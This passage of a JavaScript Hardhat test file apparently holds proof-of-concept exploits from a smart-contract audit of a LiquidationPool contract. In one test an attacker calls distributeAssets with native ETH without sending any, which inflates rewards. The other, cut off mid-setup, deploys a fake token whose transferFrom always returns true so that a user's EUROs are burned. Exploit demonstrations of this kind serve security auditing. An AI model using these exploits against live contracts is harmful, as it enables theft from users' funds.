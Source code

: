 ```js
        clAddr: EthUsd.address,
        clDec: "8"
      },
      amount: ethers.utils.parseEther("0.5")
    }

    const attacker = (await ethers.getSigners())[8]

    // attacker calls it with native eth, but without actually sending the native eth
    await LiquidationPool.connect(attacker).distributeAssets([nativeToken], "100000", "100000")

    const finalLiquidationPoolEthBalance = await ethers.provider.getBalance(LiquidationPool.address)
    const { _rewards } = await LiquidationPool.position(user1.address)
    let ethRewardAmt = 0
    for (let i in _rewards) {
      const currReward = _rewards[i]
      if (currReward.symbol == ethers.utils.formatBytes32String('ETH')) {
        ethRewardAmt = currReward.amount
        break
      }
    }

    // now the reward of user1 increases but the Liquidation Pool eth balance is still same
    expect(ethRewardAmt).greaterThan(0)
    expect(finalLiquidationPoolEthBalance).to.equal(initLiquidationPoolEthBalance)
  })

  it("Causes burning of their EUROs token with exchange with some fraud tokens", async () => {
    const initTokenAmount = ethers.utils.parseEther("100")

    await TST.mint(user1.address, initTokenAmount)
    await EUROs.mint(user1.address, initTokenAmount)
    await EUROs.mint(user2.address, initTokenAmount)

    await TST.connect(user1).approve(LiquidationPool.address, initTokenAmount)
    await EUROs.connect(user1).approve(LiquidationPool.address, initTokenAmount)

    await LiquidationPool.connect(user1).increasePosition(initTokenAmount, initTokenAmount)

    fastForward(DAY)

    // user2 increases their position
    // this is done in order to consolidate the user1's stake and to do some assert equal
    await EUROs.connect(user2).approve(LiquidationPool.address, initTokenAmount)
    await LiquidationPool.connect(user2).increasePosition(0, initTokenAmount)

    const initPosition = await LiquidationPool.position(user1.address)
    expect(initPosition._position.EUROs).to.equal(initTokenAmount)

    const attacker = (await ethers.getSigners())[8]

    // attacker creates a fake WBTC token
    // the transferFrom function inside this fraud token contract is made to just return true
    const fbt = await (await ethers.getContractFactory("FraudBTCToken")).deploy('Fraud BTC Token', 'FBT', 18)

    // price feeds for fbt token
    const WbtcUsd = await (await ethers.getContractFactory('ChainlinkMock')).deploy('WBTC/USD'); // $35,000
    await WbtcUsd.setPrice("3500000000000");

    const fbtAmount = ethers.utils.parseEther("100")
```